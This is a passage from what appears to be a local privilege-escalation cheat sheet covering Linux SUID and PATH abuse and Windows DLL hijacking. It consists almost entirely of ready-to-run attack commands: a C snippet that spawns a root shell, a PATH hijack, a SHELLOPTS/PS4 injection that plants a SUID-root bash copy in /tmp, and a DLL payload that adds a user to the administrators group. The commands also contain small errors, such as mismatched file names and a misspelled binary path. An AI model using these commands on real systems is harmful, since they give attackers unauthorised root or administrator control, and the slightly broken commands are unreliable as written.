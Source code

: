 Type: Abusing File Permission

Methods:

1\.

echo \'int main() { setgid(0); setuid(0); system(\"/bin/bash\"); return
0; }\' \>/tmp/service.c;

2\.

gcc /tmp/services.c -o /tmp/service;

3\.

export PATH=/tmp:\$PATH;

4\.

/usr/local/bin/sudi-env; id

<a name="abusing-file-permission-via-suid-binaries-environment-variables-2"></a>
# Abusing File Permission via SUID Binaries - Environment Variables \#2) 

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing File Permission

Methods:

1\.

env -i SHELLOPTS=xtrace PS4=\'\$(cp /bin/bash /tmp && chown root.root
/tmp/bash && chmod +S /tmp/bash)\' /bin/sh -c /usr/local/bin/suid-env2;
set +x; /tmp/bash -p\'

<a name="dll-hijacking"></a>
# DLL Hijacking

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

Windows_dll.c:

cmd.exe /k net localgroup administrators user /add
